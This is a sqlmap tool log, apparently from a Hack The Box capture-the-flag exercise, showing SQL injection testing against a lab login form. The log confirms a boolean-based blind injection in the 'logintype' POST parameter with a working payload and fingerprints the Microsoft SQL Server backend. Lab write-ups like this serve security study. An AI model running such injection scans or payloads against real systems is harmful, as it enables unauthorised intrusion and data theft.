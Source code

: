 ```plain
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (CONCAT)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace'
[14:18:08] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace (integer column)'
[14:18:08] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[14:18:08] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:18:08] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)
[14:18:09] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries'
[14:18:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[14:18:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF - comment)'
[14:18:09] [INFO] testing 'Microsoft SQL Server/Sybase AND time-based blind (heavy query)'
[14:18:10] [INFO] testing 'Microsoft SQL Server/Sybase OR time-based blind (heavy query)'
[14:18:10] [INFO] testing 'Microsoft SQL Server/Sybase AND time-based blind (heavy query - comment)'
[14:18:11] [INFO] testing 'Microsoft SQL Server/Sybase OR time-based blind (heavy query - comment)'
[14:18:11] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind - Parameter replace (heavy queries)'
[14:18:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:18:11] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:18:11] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:18:11] [INFO] target URL appears to have 6 columns in query
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[14:18:22] [INFO] target URL appears to be UNION injectable with 6 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[14:18:30] [INFO] testing 'Generic UNION query (74) - 21 to 40 columns'
[14:18:32] [INFO] testing 'Generic UNION query (74) - 41 to 60 columns'
[14:18:33] [INFO] testing 'Generic UNION query (74) - 61 to 80 columns'
[14:18:34] [INFO] testing 'Generic UNION query (74) - 81 to 100 columns'
[14:18:35] [INFO] checking if the injection point on POST parameter 'logintype' is a false positive
POST parameter 'logintype' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 265 HTTP(s) requests:
---
Parameter: logintype (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin&password=test&logintype=1 AND 8424=8424&rememberme=ON&B1=LogIn
---
[14:18:41] [INFO] testing Microsoft SQL Server
[14:18:42] [INFO] confirming Microsoft SQL Server
[14:18:42] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 8.1 or 2012 R2
web application technology: ASP.NET, Microsoft IIS 8.5, ASP
back-end DBMS: Microsoft SQL Server 2012
[14:18:42] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 188 times
[14:18:42] [INFO] fetched data logged to text files under '/home/devloop/.sqlmap/output/members.streetfighterclub.htb'

[*] shutting down at 14:18:42
```
